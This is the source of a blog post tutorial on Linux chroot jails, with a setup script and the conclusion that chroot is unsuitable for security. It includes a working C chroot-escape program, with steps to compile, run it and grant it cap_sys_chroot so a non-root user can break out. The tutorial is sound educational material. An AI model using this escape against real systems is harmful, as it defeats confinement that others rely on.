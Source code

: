 ```yaml
---
layout: post
title: "Chroot Jailing"
vanity: "2021-04-19-chroot-jail"
tags: [operating systems]
excerpt_separator: <!--more-->
---
```


{% include blog_vars.html %}

In this post we'll study how to use the utlity `chroot` to create a jailed environment. We'll also cover some security holes with this approach.

<!--more-->

## A Simple Chroot Environment

The `chroot` command can be used to redefine the filesystem tree root as a new directory [1]. If we want a directory, say `$HOME/root/`, to be our new root, we can start a bash shell as:

{% highlight bash %}
mkdir $HOME/root/
sudo chroot $HOME/root/
{% endhighlight %}

This will fail with:

{% highlight bash %}
chroot: failed to run command ‘/bin/bash’: No such file or directory
{% endhighlight %}

The problem is that because `$HOME/root/` is empty, there are no binaries available, so we won't be able to do much.

We can use a simple Bash script to copy the binaries and their dependencies to the new root directory.

`setup.sh`:

{% highlight bash %}
# binaries we want in our chroot
bins=( "/bin/bash" "/bin/ls" "/bin/mkdir" )

NEW_ROOT="$HOME/root"

for bin_file in "${bins[@]}"
do

    # copy binaries
    bin_dir=$(dirname $bin_file)
    mkdir -p $NEW_ROOT$bin_dir
    cp $bin_file $NEW_ROOT$bin_dir

    deps=$(ldd $bin_file)

    # copy dependencies from binaries
    while read -r dep; do
        # ldd returns too much info. we're only interested
        # in the actual files
        dep_file=$(echo $dep | grep -o "\/[a-z0-9_\.\/\-]*")
        if [ ! -z "$dep_file" ]
        then
           dep_dir=$(dirname $dep_file)
           mkdir -p $NEW_ROOT$dep_dir
           cp $dep_file $NEW_ROOT$dep_dir
        fi
    done <<< "$deps"

done
{% endhighlight %}

This adds `/bin/bash`, `/bin/ls`, `/bin/mkdir` and their dependencies to the chroot environment. We can now do:

{% highlight bash %}
./setup.sh
sudo chroot $HOME/root/ /bin/bash
{% endhighlight %}

and in there, inspect the root directory:

{% highlight bash %}
$ ls /
bin  lib  lib64
{% endhighlight %}

note we can't go beyond that:

{% highlight bash %}
$ cd /
$ cd ..
$ ls
bin  lib  lib64
{% endhighlight %}

It's worth noting that `chroot` does not clone the subtree under the new root in any way. `chroot` seems to only impose restrictions on accesses above the new root.

We can verify that by creating a new directory inside the jailed environment:

{% highlight bash %}
$mkdir hello
{% endhighlight %}

If we exit the `chroot` (e.g. with `ctrl+d`) and return to the original process, we'll see the directory is still in `$HOME/root/`.

## Escaping chroot

It's possible to "escape" from a `chroot`ed environment if we have root access and a C binary smuggled in. [2] provides the following code (comments added):

`escape.c`:

{% highlight c %}
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>

#define TEMP_DIR "hole"

int main() {

    int dir_fd, i;

    mkdir(TEMP_DIR, 0755);
    // grab a reference to the current directory
    // since chroot() will change it
    dir_fd = open(".", O_RDONLY);

    chroot(TEMP_DIR);

    // chroot didn't close the dir_fd, so we can
    // use it to switch back to the previous
    // directory
    fchdir(dir_fd);
    close(dir_fd);

    // climb up to the top of the directory enough times
    for(i = 0; i < 1000; i++) {
      chdir("..");
    }

    chroot(".");

    return execl("/bin/sh", "-i", NULL);
}
{% endhighlight %}

The exploit seems to rely on a behavior of `chroot` which removes whatever restrictions from the current chroot environment once a new one is created, so if we have a reference to the directory from the first chroot, it's possible to climb up to the root directory of the original process.

<figure class="center_children">
    <img src="{{resources_path}}/escape.jpeg" alt="Men looking through a tunnel: scene from Shawshank Redemption" />
    <figcaption>Scene from <i>Shawshank Redemption</i></figcaption>
</figure>

Before doing the chroot, we compile and add the binary to the chroot target directory:

{% highlight bash %}
./setup.sh
gcc -static escape.c -o $HOME/root/escape
sudo chroot $HOME/root/ /bin/bash
{% endhighlight %}

Inside the chroot:

{% highlight bash %}
./escape
ls
{% endhighlight %}

which should display the contents from the original process.

## Chroot for non-root

By default, the chroot process has root privileges, but it's possible to start it as a specific user and group, so that we restrict what operations can be performed inside the chroot. For example, if `test_user` is a user we want make a chroot to for, we can do:

{% highlight bash %}
sudo chroot --userspec "test_user:test_user" $HOME/root/ /bin/bash
{% endhighlight %}

The problem is that since the owner of `$HOME/root/` is not `test_user`, they won't be able to do anything. We can create a `home` folder for them:

`setup.sh`:

{% highlight bash %}
...
mkdir -p $NEW_ROOT"/home"
sudo chown test_user:test_user $NEW_ROOT"/home"
{% endhighlight %}

We then generate the `escape` binary in the new home:

{% highlight bash %}
./setup.sh
gcc -static escape.c -o $HOME/root/escape/home
sudo chroot "test_user:test_user" $HOME/root/ /bin/bash
{% endhighlight %}

Inside the chroot:

{% highlight bash %}
home/./escape
ls
{% endhighlight %}

Since `chroot` requires root privileges, they won't be able to break out of the jail using the `escape` binary, so `ls` should still show the jailed directories.

## CAP_SYS_CHROOT capability

There's a more granular permission model than root which is called capabilities. It's possible to grant capabilities to binaries so they can perform operations even without root privileges.

One of them is the ability to run `chroot`, the `CAP_SYS_CHROOT` capability. We can add it to our smuggled binary.

`setup.sh`:

{% highlight bash %}
...
gcc -static escape.c -o $HOME/root/escape/home
sudo setcap 'cap_sys_chroot+ep' $NEW_ROOT"/home/escape"
{% endhighlight %}

Now `test_user` we'll be able to escape the jail even without root privileges.

This makes it hard to detect if there's a vulnerability inside a chroot environment. Hence it seems to be a general recommendation to not rely on chroot for security purposes [3].

## Code

The full code for [escape.c]({{github}}/escape.c) and [setup.sh]({{github}}/setup.sh) are available on [Github]({{github}}).

## References

* [[1](https://en.wikipedia.org/wiki/Chroot)] Wikipedia - Chroot
* [[2](https://filippo.io/escaping-a-chroot-jail-slash-1/
)] Escaping a chroot jail/1
* [[3](https://unix.stackexchange.com/questions/105/chroot-jail-what-is-it-and-how-do-i-use-it#comment36_109)] Unix & Linux: chroot “jail” - what is it and how do I use it?
